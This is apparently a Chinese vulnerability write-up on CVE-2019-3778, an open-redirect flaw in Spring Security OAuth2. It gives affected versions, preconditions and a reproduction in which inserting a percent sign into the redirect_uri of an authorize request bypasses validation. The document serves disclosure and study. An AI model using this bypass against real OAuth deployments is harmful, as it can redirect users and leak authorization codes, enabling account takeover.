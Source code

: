 （CVE-2019-3778）Spring Security OAuth2 开放重定向
==================================================

一、漏洞简介
------------

限制条件：

-   有问题的Spring Security OAuth2版本

-   oAuth认证使用授权码模式

-   用户需要在登录的情况下

二、漏洞影响
------------

Spring Security OAuth 2.3 to 2.3.4Spring Security OAuth 2.2 to 2.2.3Spring Security OAuth 2.1 to 2.1.3Spring Security OAuth 2.0 to 2.0.16

三、复现过程
------------

用户登录后，CLIENT APP执行的以下请求包含REDIRECT\_URI参数。
只需添加一个百分号即可触发重定向，而不是通过RedirectMismatchException错误来绕过验证。

例如原始请求如下：

    /auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://localhost:8086/login

只需要修改为：

    /auth/oauth/authorize?response_type=code&client_id=R2dpxQ3vPrtfgF72&scope=user_info&state=HPRbfRgJLWdmLMi9KXeLJDesMLfPC3vZ0viEkeIvGuQ%3D&redirect_uri=http://%localhost:8086/login

这样就不会产生原本的认证错误，而且直接跳转到地址

    Location: http://localhost:8086/login
